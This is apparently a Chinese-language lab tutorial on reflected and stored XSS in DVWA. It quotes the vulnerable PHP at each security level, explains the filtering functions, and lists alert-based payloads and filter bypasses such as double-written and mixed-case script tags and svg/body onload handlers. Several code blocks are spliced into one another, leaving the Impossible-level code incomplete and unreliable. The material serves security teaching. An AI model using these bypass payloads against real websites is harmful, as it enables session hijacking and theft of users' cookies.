







[TOC]

# XSS
跨站脚本（Cross-Site Scripting，XSS）是一种经常出现在 WEB 应用程序中的计算机安全漏洞，某种意义上也是一种注入攻击,为不和层叠样式表（Cascading Style Sheets，CSS）的缩写混淆，故将跨站脚本攻击缩写为 XSS。攻击者利用网站漏洞把恶意的脚本代码注入到网页中，当其他用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采取 Cookies 资料窃取、会话劫持、钓鱼欺骗等各种攻击。
XSS不仅仅限于JavaScript，还包括flash等其它脚本语言。
XSS一般可以分为三类，**反射型的XSS**、**存储型的XSS**和**DOM型XSS**。
DOM型的XSS由于其特殊性，常常被分为第三种，这是一种基于DOM树的XSS。例如服务器端经常使用`document.boby.innerHtml`等函数动态生成html页面，如果这些函数在引用某些变量时没有进行过滤或检查，就会产生DOM型的XSS。DOM型XSS可能是存储型，也有可能是反射型。

下面根据DVWA中的**反射型XSS**和**存储型XSS**实验进行学习
（注：下面的实验都是在Firefox浏览器下进行的，感谢火狐没做XSS filter）

---

# 反射型XSS
反射型跨站脚本（Reflected Cross-Site Scripting）是最常见，也是使用最广的一种，可将恶意脚本附加到 URL 地址的参数中。

反射型 XSS 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。此类 XSS 通常出现在网站的搜索栏、用户登录口等地方，常用来窃取客户端 Cookies 或进行钓鱼欺骗。

下面对四种级别的代码进行分析。
## Low
### 核心代码
```
<?php
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
?> 
```
可以看到，代码直接引用了`name`参数，并没有任何的过滤与检查，存在明显的XSS漏洞。
### 漏洞利用
* `<script>alert(/xss/);</script>`



`alert`语句没有分号也可以,对字符串可以使用`'`、`"`、`/`,例如

* `<script>alert(/xss/)</script>`
* `<script>alert("hello1");</script>`
* `<script>alert("hello1")</script>`



常用payload
```

<svg onload=alert`1`>
<body/onload=alert(25)>
<script>confirm(1);</script>
alert(String.fromCharCode(88,83,83))</SCRIPT>
<script>eval(alert(1))</script>
<svg><script>prompt&#x28;1)</script> 
```
## Medium
### 核心代码
```
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
```
可以看到，这里对输入进行了过滤，基于黑名单的思想，使用`str_replace`函数将输入中的`<script>`替换为空，这种防护机制是可以被轻松绕过的。
###  相关函数
**[str_replace](http://php.net/manual/zh/function.str-replace.php)**— 子字符串替换
`mixed str_replace ( mixed $search , mixed $replace , mixed $subject [, int &$count ] )`
**参数解释**
如果 search 和 replace 为数组，那么 str_replace() 将对 subject 做二者的映射替换。如果 replace 的值的个数少于 search 的个数，多余的替换将使用空字符串来进行。如果 search 是一个数组而 replace 是一个字符串，那么 search 中每个元素的替换将始终使用这个字符串。该转换不会改变大小写。

如果 search 和 replace 都是数组，它们的值将会被依次处理。

* search
查找的目标值，也就是 needle。一个数组可以指定多个目标。

* replace
search 的替换值。一个数组可以被用来指定多重替换。

* subject
执行替换的数组或者字符串。也就是 haystack。
如果 subject 是一个数组，替换操作将遍历整个 subject，返回值也将是一个数组。

* count
如果被指定，它的值将被设置为替换发生的次数。

**返回值**
该函数返回替换后的数组或者字符串。
### 漏洞利用
1. 双写绕过
`<scr<script>ipt>alert(1)</script>`
2. 大小写绕过
`<ScriPt>alert(1)</script>`
3. 黑名单绕过
例如**Low**中的
```

<svg onload=alert`1`>
<body/onload=alert(25)>
alert(String.fromCharCode(88,83,83))</SCRIPT>
```
## High
### 核心代码
```
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
```
可以看到，High级别的代码同样使用黑名单过滤输入，`preg_replace()` 函数用于正则表达式的搜索和替换，这使得双写绕过、大小写混淆绕过（正则表达式中i表示不区分大小写）不再有效。*（大家可以想想为啥双写没有效呢？）*
### 相关函数
**preg_replace** — 执行一个正则表达式的搜索和替换
`mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )`
搜索subject中匹配pattern的部分， 以replacement进行替换。
 **参数解释**
 
 * pattern
要搜索的模式。可以使一个字符串或字符串数组。可以使用一些PCRE修饰符。
 * replacement
用于替换的字符串或字符串数组。如果这个参数是一个字符串，并且pattern 是一个数组，那么所有的模式都使用这个字符串进行替换。如果pattern和replacement 都是数组，每个pattern使用replacement中对应的 元素进行替换。如果replacement中的元素比pattern中的少， 多出来的pattern使用空字符串进行替换。

 * subject
要进行搜索和替换的字符串或字符串数组。
如果subject是一个数组，搜索和替换回在subject 的每一个元素上进行, 并且返回值也会是一个数组。

* limit
每个模式在每个subject上进行替换的最大次数。默认是 -1(无限)。

* count
如果指定，将会被填充为完成的替换次数。

**返回值**
如果subject是一个数组， preg_replace()返回一个数组， 其他情况下返回一个字符串。

如果匹配被查找到，替换后的subject被返回，其他情况下 返回没有改变的 subject。如果发生错误，返回 NULL 。
### 漏洞利用
虽然无法使用`<script>`标签注入XSS代码，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码
```

<svg onload=alert`1`>
<body/onload=alert(25)>
Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
可以看到，Impossible级别的代码使用`htmlspecialchars`函数把预定义的字符`&`、`"`、`'`、`<`、`>`转换为 HTML 实体，防止浏览器将其作为HTML元素。经测试，默认不过滤`'`和`"`



# 存储型XSS
存储型跨站脚本（Stored Cross-Site Scripting）也等同于持久型跨站脚本（Persistent Cross-Site Scripting）。

此类 XSS 不需要用户单击特定 URL 就能执行跨站脚本，攻击者事先将恶意代码上传或储存到漏洞服务器中，只要受害者浏览包含此恶意代码的页面就会执行恶意代码。持久型 XSS 一般出现在网站留言、评论、博客日志等交互处，恶意脚本存储到客户端或者服务端的数据库中。

下面对四种级别的代码进行分析。
## Low
### 核心代码
```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = mysql_real_escape_string( $message );

    // Sanitize name input
    $name = mysql_real_escape_string( $name );

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    //mysql_close();
}

?> 
```
可以看到，对输入并没有做XSS方面的过滤与检查，且存储在数据库中，因此这里存在明显的存储型XSS漏洞。
### 相关函数
* `trim(string,charlist)`
函数移除字符串两侧的空白字符或其他预定义字符，预定义字符包括`\t`、`\n`、`\x0B`、`\r`以及空格，可选参数charlist支持添加额外需要删除的字符。
* `mysql_real_escape_string(string,connection)`
这个函数会对字符串中的特殊符号（`\x00`,`\n`,`\r`,`\`,`'`,`"`,`\x1a`）进行转义，基本上能够抵御sql注入攻击，说基本上是因为查到说 MySQL5.5.37以下版本如果设置编码为GBK，能够构造编码绕过`mysql_real_escape_string` 对单引号的转义
本扩展自 PHP 5.5.0 起已废弃，并在自 PHP 7.0.0 开始被移除
* `stripslashes(string)`
去除字符串中的反斜线字符,如果有两个连续的反斜线,则只去掉一个
### 漏洞利用
因为没有做任何过滤，可以直接插入XSSpayload，
需要注意的是name一栏前端有字数限制，
```
<input name="txtName" size="30" maxlength="10" type="text">
```
可以抓包修改或者直接把maxlength给删除了
```
<svg onload=alert`name`>
<svg onload=alert`message`>
```







当然，其它payload也是可以的
## Medium
### 核心代码
```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = mysql_real_escape_string( $message );
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = mysql_real_escape_string( $name );

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    //mysql_close();
}

?>
```
**相关函数**

* strip_tags() 函数剥去字符串中的 HTML、XML 以及 PHP 的标签，但允许使用`<b>`标签。

* addslashes() 函数返回在预定义字符（单引号、双引号、反斜杠、NULL）之前添加反斜杠的字符串。

可以看到，由于对message参数使用了`htmlspecialchars`函数进行编码，因此无法再通过message参数注入XSS代码，但是对于name参数，只是简单过滤了`<script>`字符串，仍然存在存储型的XSS。

### 漏洞利用
1. 双写绕过
`<scr<script>ipt>alert(1)</script>`
2. 大小写绕过
`<ScriPt>alert(1)</script>`
3. 黑名单绕过
```

<svg onload=alert`1`>
<body/onload=alert(25)>
' . mysql_error() . '</pre>' );

    //mysql_close();
}

?>
```
可以看到，由于对message参数使用了`htmlspecialchars`函数进行编码，因此无法再通过message参数注入XSS代码,对于name参数这里使用正则表达式过滤了`<script>`标签，但是却忽略了img、iframe等其它危险的标签，因此name参数依旧存在存储型XSS

### 漏洞利用
同反射型XSS漏洞High级别利用方式
```

<svg onload=alert`1`>
<body/onload=alert(25)>
prepare( 'INSERT INTO guestbook ( comment, name ) VALUES ( :message, :name );' );
    $data->bindParam( ':message', $message, PDO::PARAM_STR );
    $data->bindParam( ':name', $name, PDO::PARAM_STR );
    $data->execute();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

可以看到，通过使用htmlspecialchars函数，解决了XSS，



但是要注意的是，如果`htmlspecialchars`函数使用不当，攻击者就可以通过编码的方式绕过函数进行XSS注入，尤其是DOM型的XSS。例如 [知乎－XSS 攻击时怎么绕过 htmlspecialchars 函数呢？](https://www.zhihu.com/question/27646993)


# 参考
1. https://ctf-wiki.github.io/ctf-wiki/web/xss.html
2. http://www.freebuf.com/articles/web/123779.html
3. http://www.freebuf.com/articles/web/129308.html
4. http://blog.csdn.net/qq_35078631/article/details/77073233
5. http://www.cnblogs.com/xiaozi/p/7268506.html
6. http://zjw.dropsec.xyz/%E6%BC%8F%E6%B4%9E/2016/08/05/xss%E5%9F%BA%E7%A1%80.html 
7. https://www.zhihu.com/question/27646993

# 作业
1. File Inclusion

查找资料，完成DVWA漏洞模块`File Inclusion`的学习，提交详细学习笔记。

2. 复习XSS

自己查找2道XSS有关的CTF题，并提交详细学习笔记
